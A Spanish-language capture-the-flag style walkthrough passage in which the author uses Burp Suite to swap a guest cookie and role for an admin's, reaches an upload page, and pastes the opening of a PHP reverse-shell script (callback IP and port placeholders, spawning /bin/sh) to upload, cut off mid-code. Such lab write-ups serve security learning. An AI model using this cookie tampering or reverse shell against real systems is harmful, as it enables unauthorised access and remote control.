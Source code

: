 ###### Ok necesitamos accesso como administrador para ver la pestana de #Uploads asi que vamos de nuevo al burpsuite e intentemos interceptar la peticion para cambiar nuestro AccessID de guest por el AccessID del usuario admin a ver si esto nos da mas informacion.

```css
	--:Burpsuite
	--:Intercep is On
	--:Ahora vamos a la pagia e intentamos entrat en Uploads
```

###### Notamos que la pagina se queda cargando asi que hemos interceptado la peticion correctamente. 
###### ahora Cambiamos la Cookie del Usuario guest por la cookie del usuario admin y el #role del usuario guest por admin: 


![[2023-10-06_14-51.png]]

###### Precionamos el boton #Forward para que la peticion con la modificacion que acabamos de hacer se envie y verificamos en la pagina.

![[2023-10-06_14-56.png]]

###### Podemos ver que ahora tenemos acceso a la pestana de Uploads. parace que podemos subir archivos a esta pagina. asi que intentaremos subir un archivo malisioso para intentar consegir una reverseShell

buscamos en internet una reverseshell.php

shell.php
```python
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
```